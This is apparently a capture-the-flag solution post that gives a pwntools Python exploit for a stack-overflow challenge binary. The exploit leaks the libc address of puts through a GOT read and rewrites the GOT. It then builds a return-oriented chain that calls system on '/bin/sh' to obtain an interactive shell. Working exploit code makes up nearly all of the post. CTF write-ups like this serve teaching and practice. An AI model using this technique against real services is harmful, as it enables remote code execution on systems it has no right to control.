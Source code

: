 ### `IdanRosen`
You must first find out the libc version used on the server by leaking runtime addresses of various libc functions (using GOT leak) and using any online libc database website to find out the libc version.
after that, solution using GOT overwrite and ROP (no shellcode):
```python
target.sendlineafter(b"? : ", b"name") # the name is name
target.sendlineafter(b"> ", b"1")

target.recvline()

pop_rbp = 0x400762
gadget = 0x400837 # lea rax, [rbp + 20]

# the idea is to print got.puts value, so we store it inside rbp.
# because the fgets is called we must not harm the got.puts so we give it the dl resolve.
# then puts is called with a pointer to the got.puts, when calling puts the got.puts gets updated to the real location of puts

# this could be simplified by overwriting rbp in the initial leave :)
payload = b'A' * 0x28
payload += p64(pop_rbp) # RA 
payload += p64(elf.got.puts + 0x20) # pop rbp
payload += p64(gadget) # jmp to the second write
target.sendline(payload)

target.recvline()
target.recvuntil(b"name\n") # after the first byebye message

# got.puts = calls puts ld resolve
got_overwrite = p64(elf.plt.puts + 0x6) 
got_overwrite += p64(gadget) 
target.sendline(got_overwrite)
# puts is called with the elf.got.puts (because rbp is got.puts + 0x20)
# then leave ret, rsp = got.puts + 0x20, rbp = *(rbp+20), ret to *(rbp+28)
puts = u64(target.recvline().strip().ljust(8, b'\0'))
log.success("puts: {}".format(hex(puts)))
libc.address = puts - libc.symbols.puts
log.success("libc: {}".format(hex(libc.address)))
log.success("system: {}".format(hex(libc.symbols.system)))

pop_rdi = libc.address + 0x21112
binsh = libc.address + 0x18ce57

payload = p64(pop_rdi) 
payload += p64(binsh)
payload += p64(libc.symbols.system)
payload += p64(libc.symbols.exit)
target.sendline(payload)

target.interactive()
```
The idea here is that you can change `rbp` and call puts with the value of `rbp` as a pointer. puts(`rbp+0x20`)
